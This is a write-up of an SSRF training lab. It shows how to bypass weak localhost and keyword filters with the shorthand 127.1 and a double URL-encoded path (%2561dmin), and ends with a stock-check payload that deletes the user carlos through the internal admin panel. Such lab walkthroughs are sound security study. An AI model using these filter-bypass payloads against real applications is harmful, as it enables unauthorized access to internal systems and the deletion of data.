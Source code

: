 ### Third Exercise 🐱‍👓


![problem.PNG](/assets/SSRF/Third/problem.PNG)

#### **To do**
```
This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.  
```


1. Try to access with
+ `http://localhost/admin`
+ `http://127.0.0.1/admin`

**Output**

![response.PNG](/assets/SSRF/Third/response.PNG)


2. You can remove zeros to `127.0.0.1` -> `127.1`
Now, try with `http://127.1/admi`


**Output**

![code404.PNG](/assets/SSRF/Third/code404.PNG)

* Access to **admi** for check if the IP address is valid.
* **Code 404** we tell the IP address is valid but the resource to try access is incorrect.

3. Access with `http://127.1/%2561dmin`

**Output**

![admin-panel.PNG](/assets/SSRF/Third/admin-panel.PNG)

* Encode the **letter a** to try to camouflage our malicious petition (a -> %61) and then enconde **character %** -> (%2561).
* Do this because the web page unencode the URL only one time 
`http://127.1/%2561dmin` =====> `http://127.1/%61dmin`

4. Inspect the code of web page

![code-webpage.PNG](/assets/SSRF/Third/code-webpage.PNG)


5. Delete **user carlos**

```bash
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

You solve the lab!